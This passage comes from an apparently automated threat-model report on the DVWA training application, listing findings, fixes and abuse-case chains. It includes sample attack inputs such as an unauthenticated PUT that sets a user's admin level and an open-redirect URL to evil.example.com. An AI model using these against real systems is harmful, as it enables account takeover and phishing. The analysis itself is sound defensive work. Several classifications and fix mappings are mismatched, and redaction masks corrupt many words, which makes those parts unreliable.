**Issue:** None of the five workflow files declare a `permissions:` block, so every job inherits the repository default token scope, which includes `contents: write`, `packages: write`, and `pull-requests: write`. In `shiftleft-analysis.yml:27`, the `GITHUB_TOKEN` is explicitly passed as the `GITHUB_TOKEN` environment variable to `ShiftLeftSecurity/scan-action@v1.3.0`, a third-party action from an external vendor.

A malicious or compromised version of that action receives a token capable of pushing commits to any branch, creating or overwriting releases, modifying workflow files, and reading all repository secrets accessible to the workflow. A compromised third-party action gains full write access to the repository, enabling code injection, secrets exfiltration, or supply-chain contamination of published Docker images.

**Evidence:** ✓ verified - `shiftleft-analysis.yml:27` passes `GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}` to `ShiftLeftSecurity/scan-action@v1.3.0`; no `permissions:` block is present in any workflow file.

```yaml
// .github/workflows/shiftleft-analysis.yml:27
      env:
        WORKSPACE: ""
        GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
        SCAN_AUTO_BUILD: true
      with:
```

**Fix:** ◕ [M-033](#m-033) — Drop unnecessary privileges in build and runtime (`shiftleft-analysis.yml:27`)

**Classification:** Broken Access Control · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-035"></a><a id="f-035"></a>
#### F-035 · Known Root Password 'dvwa' Enables Full DB Admin Access (compose\.yml:31)

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - GitHub Actions CI/CD Pipeline  ·  **Location:** `compose.yml:31`

**Weakness:** [W-003](#w-003) - Secrets are committed to source instead of a managed store

**Issue:** The MariaDB root account is initialized with the pass**** (8 chars) 'dvwa' (`compose.yml:31`). The root credential provides unrestricted access to all MariaDB capabilities: creating and dropping any database, creating additional privileged users, executing `LOAD DATA INFILE` or `SELECT ...

INTO OUTFILE` to read/write container filesystem files, and installing plugins. An attacker with Docker network adjacency obtains full database admin control, enabling persistent backdoor user creation, filesystem read via `LOAD_FILE`, and complete data exfiltration or destruction.

**Evidence:** ✓ verified - `compose.yml:31` sets `MYSQL_ROOT_PASSWORD`=dvwa in version-controlled plain text; the root account has unrestricted MariaDB administrative privileges.

```yaml
// compose.yml:31
    image: docker.io/library/mariadb:10
    environment:
      - MYSQL_ROOT_PASSWORD=dvwa
      - MYSQL_DATABASE=dvwa
      - MYSQL_USER=dvwa
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ◕ [M-034](#m-034) — Move secrets to a managed secret store (`compose.yml:31`)

**Classification:** Cryptographic Failures · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-036"></a><a id="f-036"></a>
#### F-036 · Unauthenticated User Privilege Level Manipulation (UserController.php:225)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - DVWA REST API (Slim + Swagger)  ·  **Location:** `vulnerabilities/api/src/UserController.php:225`

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → web-application · Authorization: PUT `/user/`{id} with level field has no auth; breaks authorization leg.

**Issue:** The `updateUser()` method in `UserController.php` (line 208) accepts a PUT request carrying a JSON body with a 'level' field and directly sets the user's level to the supplied integer value without any authentication, authorization, or ownership check. An unauthenticated attacker can issue PUT `/api/v2/user/1` with body `{"level": 1}` to elevate user 1 from level 0 to level 1 (admin), or can issue PUT `/api/v2/user/2` to change any other user's privileges.

The `addUser()` method at line 154 similarly accepts a caller-supplied 'level' field when creating new users, allowing an anonymous attacker to create arbitrary admin accounts. An unauthenticated attacker can escalate any user to admin level or create new admin-level accounts without any credentials.

**Evidence:** ✓ verified - `UserController.php:225` assigns \$input['level'] directly to \$this->data[\$id]->level with no prior authentication check or role boundary enforcement.

```
// vulnerabilities/api/src/UserController.php:225
		}
		if (array_key_exists ("level", $input)) {
			$this->data[$id]->level = intval ($input['level']);
		}
		$response['status_code_header'] = 'HTTP/1.1 200 OK';
```

**Fix:** ◕ [M-035](#m-035) — Enforce server-side authorization on every endpoint (`UserController.php:225`)

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-037"></a><a id="f-037"></a>
#### F-037 · Unauthenticated Database Setup and Reset Endpoint (setup.php:6)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `setup.php:6`

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → web-application · Authentication: The authentication leg of tb-1 is broken for `setup.php`: `dvwaPageStartup( array() )` skips the authentication requirement, allowing unauthenticated access to a privileged administrative action.

**Issue:** `setup.php:6` calls `dvwaPageStartup( array() )` - an empty array - which means no authentication check is performed. When the `create_db` POST parameter is present, the page drops and recreates the entire DVWA database.

Any unauthenticated user who can reach the application can invoke this endpoint, destroying all user data and resetting the application to its initial state, or deliberately recreating the database with predictable seed credentials. Unauthenticated attacker can destroy the database and re-initialize it with known credentials, then log in as admin.

**Evidence:** ✓ verified - `setup.php:6` invokes `dvwaPageStartup( array() )` - an empty action list - so `dvwaPageStartup()` at `dvwaPage.inc.php:133` performs no authentication check.

```
// setup.php:6
require_once DVWA_WEB_PAGE_TO_ROOT . 'dvwa/includes/dvwaPage.inc.php';

dvwaPageStartup( array( ) );

$page = dvwaPageNewGrab();
```

**Fix:** ◕ [M-036](#m-036) — Require authentication on every exposed endpoint (`setup.php:6`)

**Classification:** Unauthenticated Management Plane · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-038"></a><a id="f-038"></a>
#### F-038 · MD5 Password Hashing Without Salt (login.php:27)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `login.php:27`

**Weakness:** [W-004](#w-004) - Security-sensitive data uses weak cryptographic primitives

**Issue:** Passwords are hashed with unsalted `MD5` before database comparison (`login.php:27`: `$pass = md5($pass);`). `MD5` is a fast hash with no work factor and is directly reversed by pre-computed rainbow tables for common pass**** (8 chars)s.

If an attacker obtains the `users` table - via SQL injection (🔴 [F-003](#f-003) — SQL Injection (`vulnerabilities/sqli/source/low.php:10`)), an exposed backup, or a direct database attack - they can crack all pass**** (8 chars) hashes using freely available rainbow tables or GPU-accelerated hashcat within minutes for dictionary-range pass**** (8 chars)s. Any database dump immediately yields recoverable plaintext pass**** (8 chars)s for all users; no cracking work is requ**** (8 chars) for common pass**** (8 chars)s.

**Evidence:** ✓ verified - `login.php:27` calls `md5($pass)` with no salt and no iterated work factor; the same pattern repeats in `csrf/source/low.php:12`, `captcha/source/low.php:57`, and `brute/source/low.php:9`.

**Fix:** Replace the broken hash with a salted pass**** (8 chars)-hashing function (bcrypt/Argon2id) → ◕ [M-037](#m-037) — Hash pass**** (8 chars)s with a strong, salted algorithm (`login.php:27`)

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-059"></a><a id="f-059"></a>
#### F-059 · Cross-origin request abuse through permissive CORS

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - DVWA REST API (Slim + Swagger)  ·  **Location:** `vulnerabilities/api/gen_openapi.php:6`

**Issue:** Architecture-coverage rule ARCH-CORS-001 matched this anti-pattern at `vulnerabilities/api/gen_openapi.php:6` and 1 further site(s). Cross-origin request abuse through permissive CORS: the condition is observable in the code as cited, weakening the control this rule checks and exposing the affected surface to Tampering ().

**Evidence:** ◌ ambiguous

**Fix:** Replace the wildcard CORS origin with an explicit allow-list → _not yet mapped ([§10](#10-mitigation-register))_

**Classification:** Broken Access Control · [CWE-942](https://cwe.mitre.org/data/definitions/942.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-060"></a><a id="f-060"></a>
#### F-060 · Data disclosure through cleartext transport

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `about.php:28`

**Issue:** Architecture-coverage rule ARCH-TLS-001 matched this anti-pattern at `about.php:28` and 7 further site(s). Data disclosure through cleartext transport: the condition is observable in the code as cited, weakening the control this rule checks and exposing the affected surface to Information Disclosure ().

**Evidence:** ◌ ambiguous

```
// about.php:28
	<h2>Credits</h2>
	<ul>
		<li>Brooks Garrett: " . dvwaExternalLinkUrlGet( 'http://brooksgarrett.com/','www.brooksgarrett.com' ) . "</li>
		<li>Craig</li>
		<li>g0tmi1k: " . dvwaExternalLinkUrlGet( 'https://blog.g0tmi1k.com/','g0tmi1k.com' ) . "</li>
```

**Fix:** Force TLS on every transport channel and reject downgrades → _not yet mapped ([§10](#10-mitigation-register))_

**Classification:** Cryptographic Failures · [CWE-319](https://cwe.mitre.org/data/definitions/319.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

### 🟡 Medium (18)

<a id="t-039"></a><a id="f-039"></a>
#### F-039 · Open Redirect

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `vulnerabilities/open_redirect/source/low.php:4`

**Issue:** An attacker crafts a URL such as `/vulnerabilities/open_redirect/?redirect=https://evil.example.com` and sends it to a victim. The Location header at `open_redirect/source/low.php:4` is built by direct concatenation of `$_GET['redirect']` with no scheme or host validation.

Attacker lures authenticated users off-site via a trusted-looking DVWA URL, enabling credential harvest or state-token theft.

**Evidence:** ✓ verified - `open_redirect/source/low.php:4` sets `header("location: " . $_GET['redirect'])` with no allowlist or scheme restriction.

**Fix:** ◑ [M-038](#m-038) — Validate redirect targets against an allowlist (`low.php:4`)

**Classification:** Open Redirect · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-040"></a><a id="f-040"></a>
#### F-040 · Broken hash primitive PHP dvwa/includes/dvwaPage.inc.php:651 (MD5/SHA-1)

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `dvwa/includes/dvwaPage.inc.php:651`

**Weakness:** [W-004](#w-004) - Security-sensitive data uses weak cryptographic primitives

**Issue:** `MD5`/SHA-1 are collision-broken; unsafe for pass**** (8 chars)s or integrity of untrusted data.

**Evidence:** ✓ verified

**Fix:** Replace the broken hash with a salted pass**** (8 chars)-hashing function (bcrypt/Argon2id) → ◑ [M-039](#m-039) — Use modern cryptographic hash and KDF algorithms (`dvwaPage.inc.php:651`)

**Classification:** Cryptographic Failures · [CWE-328](https://cwe.mitre.org/data/definitions/328.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-041"></a><a id="f-041"></a>
#### F-041 · Broken hash primitive PHP vulnerabilities/captcha/source/impossible.php:14

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `vulnerabilities/captcha/source/impossible.php:14`

**Weakness:** [W-004](#w-004) - Security-sensitive data uses weak cryptographic primitives

**Issue:** `MD5`/SHA-1 are collision-broken; unsafe for pass**** (8 chars)s or integrity of untrusted data.

**Evidence:** ✓ verified

**Fix:** Replace the broken hash with a salted pass**** (8 chars)-hashing function (bcrypt/Argon2id) → ◑ [M-039](#m-039) — Use modern cryptographic hash and KDF algorithms (`dvwaPage.inc.php:651`)

**Classification:** Cryptographic Failures · [CWE-328](https://cwe.mitre.org/data/definitions/328.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-042"></a><a id="f-042"></a>
#### F-042 · Broken hash primitive PHP vulnerabilities/captcha/source/impossible.php:19

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `vulnerabilities/captcha/source/impossible.php:19`

**Weakness:** [W-004](#w-004) - Security-sensitive data uses weak cryptographic primitives

**Issue:** `MD5`/SHA-1 are collision-broken; unsafe for pass**** (8 chars)s or integrity of untrusted data.

**Evidence:** ✓ verified

**Fix:** Replace the broken hash with a salted pass**** (8 chars)-hashing function (bcrypt/Argon2id) → ◑ [M-039](#m-039) — Use modern cryptographic hash and KDF algorithms (`dvwaPage.inc.php:651`)

**Classification:** Cryptographic Failures · [CWE-328](https://cwe.mitre.org/data/definitions/328.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-043"></a><a id="f-043"></a>
#### F-043 · Broken hash primitive PHP vulnerabilities/csrf/source/impossible.php:15 (SHA-1)

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `vulnerabilities/csrf/source/impossible.php:15`

**Weakness:** [W-004](#w-004) - Security-sensitive data uses weak cryptographic primitives

**Issue:** `MD5`/SHA-1 are collision-broken; unsafe for pass**** (8 chars)s or integrity of untrusted data.

**Evidence:** ✓ verified

**Fix:** Replace the broken hash with a salted pass**** (8 chars)-hashing function (bcrypt/Argon2id) → ◑ [M-039](#m-039) — Use modern cryptographic hash and KDF algorithms (`dvwaPage.inc.php:651`)

**Classification:** Cross-Site Request Forgery (CSRF) · [CWE-328](https://cwe.mitre.org/data/definitions/328.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-044"></a><a id="f-044"></a>
#### F-044 · Broken hash primitive PHP vulnerabilities/csrf/source/impossible.php:29 (SHA-1)

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `vulnerabilities/csrf/source/impossible.php:29`

**Weakness:** [W-004](#w-004) - Security-sensitive data uses weak cryptographic primitives

**Issue:** `MD5`/SHA-1 are collision-broken; unsafe for pass**** (8 chars)s or integrity of untrusted data.

**Evidence:** ✓ verified

**Fix:** Replace the broken hash with a salted pass**** (8 chars)-hashing function (bcrypt/Argon2id) → ◑ [M-039](#m-039) — Use modern cryptographic hash and KDF algorithms (`dvwaPage.inc.php:651`)

**Classification:** Cross-Site Request Forgery (CSRF) · [CWE-328](https://cwe.mitre.org/data/definitions/328.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-045"></a><a id="f-045"></a>
#### F-045 · Use of Weak Hash

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `vulnerabilities/csrf/test_credentials.php:19`

**Weakness:** [W-004](#w-004) - Security-sensitive data uses weak cryptographic primitives

**Issue:** `MD5`/SHA-1 are collision-broken; unsafe for pass**** (8 chars)s or integrity of untrusted data.

**Evidence:** ✓ verified

**Fix:** Replace the broken hash with a salted pass**** (8 chars)-hashing function (bcrypt/Argon2id) → ◑ [M-039](#m-039) — Use modern cryptographic hash and KDF algorithms (`dvwaPage.inc.php:651`)

**Classification:** Cross-Site Request Forgery (CSRF) · [CWE-328](https://cwe.mitre.org/data/definitions/328.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-046"></a><a id="f-046"></a>
#### F-046 · Broken hash primitive PHP vulnerabilities/javascript/index.php:43 (MD5/SHA-1)

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `vulnerabilities/javascript/index.php:43`

**Weakness:** [W-004](#w-004) - Security-sensitive data uses weak cryptographic primitives

**Issue:** `MD5`/SHA-1 are collision-broken; unsafe for pass**** (8 chars)s or integrity of untrusted data.

**Evidence:** ✓ verified

**Fix:** Replace the broken hash with a salted pass**** (8 chars)-hashing function (bcrypt/Argon2id) → ◑ [M-039](#m-039) — Use modern cryptographic hash and KDF algorithms (`dvwaPage.inc.php:651`)

**Classification:** Cryptographic Failures · [CWE-328](https://cwe.mitre.org/data/definitions/328.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-047"></a><a id="f-047"></a>
#### F-047 · Broken hash primitive PHP vulnerabilities/javascript/source/low.php:18 (SHA-1)

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `vulnerabilities/javascript/source/low.php:18`

**Weakness:** [W-004](#w-004) - Security-sensitive data uses weak cryptographic primitives

**Issue:** `MD5`/SHA-1 are collision-broken; unsafe for pass**** (8 chars)s or integrity of untrusted data.

**Evidence:** ✓ verified

**Fix:** Replace the broken hash with a salted pass**** (8 chars)-hashing function (bcrypt/Argon2id) → ◑ [M-039](#m-039) — Use modern cryptographic hash and KDF algorithms (`dvwaPage.inc.php:651`)

**Classification:** Cryptographic Failures · [CWE-328](https://cwe.mitre.org/data/definitions/328.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-048"></a><a id="f-048"></a>
#### F-048 · Docker image pushed without signing or SLSA provenance (docker-image.yml:41)

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - GitHub Actions CI/CD Pipeline  ·  **Location:** `.github/workflows/docker-image.yml:41`

**Trust boundary gap:** [tb-4](#tb-4) - ci-cd-pipeline → external · Egress content: Image pushed without signing; egress-content integrity unverifiable by consumers

**Issue:** The `Build and push multi-arch DVWA image` step in `docker-image.yml:41` calls `docker buildx build ... --push` with no subsequent cosign signing step and no SLSA provenance attestation.

Consumers deploying the published image have no integrity guarantee; a tampered image could introduce backdoors into every DVWA instance deployed from ghcr.io.

**Evidence:** ✓ verified - `docker-image.yml:41` executes `docker buildx build --push` with no `cosign sign` or `attest-build-provenance` step anywhere in the workflow.

**Fix:** ◑ [M-040](#m-040) — Sign container images with cosign and generate SLSA provenance on every push (`docker-image.yml:41`)

**Classification:** Supply-Chain Integrity · [CWE-494](https://cwe.mitre.org/data/definitions/494.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/)

<a id="t-049"></a><a id="f-049"></a>
#### F-049 · No MySQL Binary Logging or Immutable Audit Trail Configured in Database Layer

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - GitHub Actions CI/CD Pipeline  ·  **Location:** `compose.yml:29`

**Issue:** The MariaDB service in `compose.yml` is started with default settings and no command-line flags or environment variables that enable the binary log (--log-bin), the general query log (--general-log), or any audit plugin. The `bac_setup.sql` file creates `access_log` and `security_log` tables, but these are training-exercise tables written to by the DVWA application itself using the 'dvwa' user - which has DDL access and can TRUNCATE or DROP them.

An attacker can cover their tracks by truncating training-exercise log tables; no database-native log exists to reconstruct injected or unauthorized queries after the fact.

**Evidence:** ✓ verified - `compose.yml:28-39` starts MariaDB with no --log-bin, --general-log, or audit plugin arguments; `bac_setup.sql` creates application-layer log tables that the 'dvwa' user can truncate.

**Fix:** ◑ [M-041](#m-041) — Add security audit logging (`compose.yml:29`)

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2025](https://owasp.org/Top10/2025/A09_2025-Security_Logging_and_Alerting_Failures/)

<a id="t-050"></a><a id="f-050"></a>
#### F-050 · Missing Security Event Audit Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `login.php:43`

**Issue:** Login (`login.php:43-44`), logout (`logout.php:13`), pass**** (8 chars) changes (`csrf/source/low.php:16-17`), and file uploads (`upload/source/low.php:9`) complete with no security log entries. There is no call to `error_log()`, `syslog()`, or any structured log sink in any of these paths.

Post-incident forensics cannot reconstruct authentication events, privilege changes, or data exfiltration, preventing breach detection and legal accountability.

**Evidence:** ✓ verified - Grep of `login.php`, `dvwaPage.inc.php`, and `logout.php` for `error_log`, `syslog`, `fwrite`, and `audit` returns zero hits.

**Fix:** ◑ [M-042](#m-042) — Add security audit logging (`login.php:43`)

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2025](https://owasp.org/Top10/2025/A09_2025-Security_Logging_and_Alerting_Failures/)

<a id="t-051"></a><a id="f-051"></a>
#### F-051 · Dockerfile USER directive (non-root)

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - GitHub Actions CI/CD Pipeline  ·  **Location:** `Dockerfile:1`

**Issue:** Dockerfile USER directive (non-root): Containers running as root expand container-escape blast radius.

**Evidence:** ✓ verified

**Fix:** ◑ [M-043](#m-043) — Drop unnecessary privileges in build and runtime (`Dockerfile:1`)

**Classification:** Error Information Disclosure · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-052"></a><a id="f-052"></a>
#### F-052 · Container image signing via cosign or attest-build-provenance

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - GitHub Actions CI/CD Pipeline  ·  **Location:** Multiple locations (3)

**Instances (3):** `.github/workflows/docker-image.yml:1`, `.github/workflows/codeql-analysis.yml:1`, `.github/workflows/pytest.yml:1`

**Issue:** Container image signing via cosign or attest-build-provenance: Unsigned container images cannot be verified for provenance - any registry intermediary could substitute them.

**Evidence:** ✓ verified

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ◑ [M-044](#m-044) — Sign and verify release artifacts (`docker-image.yml:1`)

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-053"></a><a id="f-053"></a>
#### F-053 · Incorrect Permission Assignment

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - GitHub Actions CI/CD Pipeline  ·  **Location:** Multiple locations (3)

**Instances (3):** `.github/workflows/docker-image.yml:1`, `.github/workflows/codeql-analysis.yml:1`, `.github/workflows/pytest.yml:1`

**Issue:** `GITHUB_TOKEN` scope minimization: `contents: read` at workflow root forces per-job opt-in for write scopes - minimal privilege by default.

**Evidence:** ✓ verified

**Fix:** ◑ [M-045](#m-045) — Apply least-privilege permissions (`docker-image.yml:1`)

**Classification:** Error Information Disclosure · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-054"></a><a id="f-054"></a>
#### F-054 · Unauthenticated Swagger UI and OpenAPI Specification Exposure

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - DVWA REST API (Slim + Swagger)  ·  **Location:** `vulnerabilities/api/gen_openapi.php:4`

**Issue:** The Swagger UI is served publicly at `/vulnerabilities/api/swagger` and the full OpenAPI specification is available at `/vulnerabilities/api/openapi.yml` without any authentication. The `gen_openapi.php` script scans the entire src/ directory at request time and emits a dynamically generated YAML spec.

An attacker receives a complete, up-to-date map of all API endpoints, parameters, and data schemas without needing to enumerate them manually.

**Evidence:** ✓ verified - `gen_openapi.php`:4 calls OpenApi\Generator::`scan(['./src'])` on every request with no preceding authentication check, emitting the full API spec.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ◑ [M-046](#m-046) — Stop exposing internal information to clients (`gen_openapi.php:4`)

**Classification:** Error Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-055"></a><a id="f-055"></a>
#### F-055 · Overly Permissive CORS Policy

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - DVWA REST API (Slim + Swagger)  ·  **Location:** `vulnerabilities/api/public/index.php:11`

**Issue:** Both `public/index.php` (line 11) and `gen_openapi.php` (line 6) emit Access-Control-Allow-Origin: * unconditionally. The wildcard allows any web origin to make cross-origin requests to all API endpoints and read the responses in JavaScript.

Cross-origin JavaScript on any web page can read API responses and exfiltrate user data from a victim's browsing session.

**Evidence:** ✓ verified - `public/index.php:11` sets Access-Control-Allow-Origin: * as the first header before any routing or authentication logic runs.

**Fix:** Replace the wildcard CORS origin with an explicit allow-list → ◑ [M-047](#m-047) — Restrict CORS to trusted origins (`index.php:11`)

**Classification:** Broken Access Control · [CWE-942](https://cwe.mitre.org/data/definitions/942.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-056"></a><a id="f-056"></a>
#### F-056 · Predictable Sequential Session Identifier (low.php:9)

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `vulnerabilities/weak_id/source/low.php:9`

**Weakness:** [W-004](#w-004) - Security-sensitive data uses weak cryptographic primitives

**Issue:** The Weak Session IDs module assigns a custom `dvwaSession` cookie whose value is an integer counter stored in the PHP session (`$_SESSION['last_session_id']++` at `weak_id/source/low.php:9`). The counter starts at 1 and increments with each POST request.

Any session issued by the `weak_id` module is forgeable by brute-forcing a small integer space.

**Evidence:** ✓ verified - `weak_id/source/low.php:9` increments `$_SESSION['last_session_id']` and sets `setcookie('dvwaSession', $cookie_value)` with no random component.

**Fix:** Switch to a cryptographically secure RNG (`crypto.randomBytes` / OS `/dev/urandom`) → ◑ [M-048](#m-048) — Use cryptographically secure random values (`low.php:9`)

**Classification:** Cryptographic Failures · [CWE-330](https://cwe.mitre.org/data/definitions/330.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

---

## 9. Abuse Cases

_Abuse cases describe end-to-end attack scenarios that chain individual findings into an exploitation path. Each case is **mandatory** - defined in the org profile / plugin library and evaluated against every repository. Every chain step references a finding from [§8 Findings Register](#8-findings-register); each step is code-confirmed against the repository and the chain verdict is folded deterministically from the per-step results, never rated by hand._

| # | Scenario | Actor | Combined Risk | Verdict |
|--------|------------------------------------|-----------------|-------------|--------------|
| [AC-T-005](#ac-t-005) | Authentication Bypass via Exposed Secret<br/>Material | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-006](#ac-t-006) | Remote Code Execution via Server-Side<br/>Injection | external-attacker | 🔴 Critical | ⚠ Fully viable |

_Verdict: ⚠ Fully viable - no effective control blocks this chain · ◐ Partially blocked - at least one step has a compensating control but the chain is not fully closed · ✓ Mitigated - chain is broken at a verified step · ? Inconclusive - could not be verified end-to-end._

---

<a id="ac-t-005"></a>
### AC-T-005 — Authentication Bypass via Exposed Secret Material

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge trusted tokens / credentials and impersonate any user.

**Prerequisite:** Signing material or other secrets are reachable (committed to a public repo, served by an unauthenticated route, or in an exposed directory).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-007](#f-007) — Hardcoded Cryptographic Key (`Login.php:10`) | A private key, signing secret, or credential<br/>file is committed to the source repository<br/>or served without authentication. |
| 2 | 🟠 [F-020](#f-020) — Missing Security Event Audit Logging (`LoginController.php:75`) | The exposed key/secret is the same one the<br/>server trusts, so a token signed with it (or<br/>the leaked credential) is accepted as<br/>authentic. |

**Why combined risk exceeds individual ratings**

Exposed signing material collapses the entire authentication boundary: any attacker who reads the key can mint a valid token for any identity or role, with no credential ever requ**** (8 chars).

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ◕ [M-007](#m-007) — Move cryptographic keys to a managed secret store (**P2**): remediating 🟠 [F-007](#f-007) — Hardcoded Cryptographic Key breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ◕ [M-019](#m-019) — Add security audit logging (**P2**): remediating 🟠 [F-020](#f-020) — Missing Security Event Audit Logging breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

<a id="ac-t-006"></a>
### AC-T-006 — Remote Code Execution via Server-Side Injection

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Execute arbitrary code in the application process.

**Prerequisite:** An input reaches a server-side interpreter / template / eval.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-061](#f-061) — User-controlled input reaches a server-side execution sink (`low.php:14`)<br/>`dvwa/js/dvwaPage.js:7` | Attacker-controlled input is passed to `eval`,<br/>a server-side template engine, an unsafe<br/>sandbox, or an unsafe deserializer. |

**Why combined risk exceeds individual ratings**

A single injection into a server-side interpreter yields code execution in the application process - the highest-impact outcome, granting full filesystem and network access from one unauthenticated request.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ● [M-049](#m-049) — Remove server-side evaluation of untrusted input (**P1**): remediating 🔴 [F-061](#f-061) — User-controlled input reaches a server-side execution sink breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### Generic catalog — evaluated, not applicable

_These common abuse-case scenarios from the standard library were checked against this codebase and did not apply. They are listed so the assessment's abuse-case coverage is explicit, not silent._

| Scenario | Source | Why not applicable |
|------------------------------------|---------|----------------------|
| Account Takeover via Stored XSS + Token<br/>Hijacking | mandatory | requ**** (8 chars) signal(s) absent:<br/>`has_client_storage` |
| Bulk Data Exfiltration via Broken Object<br/>Authorization | mandatory | requ**** (8 chars) signal(s) absent:<br/>`has_role_concept` |
| Privilege Escalation to Admin via JWT<br/>Algorithm Confusion | mandatory | no finding matched the requ**** (8 chars) chain<br/>step(s) for this scenario |
| Privilege Escalation via Mass-Assignment on<br/>Registration | mandatory | requ**** (8 chars) signal(s) absent:<br/>`has_registration` |

---

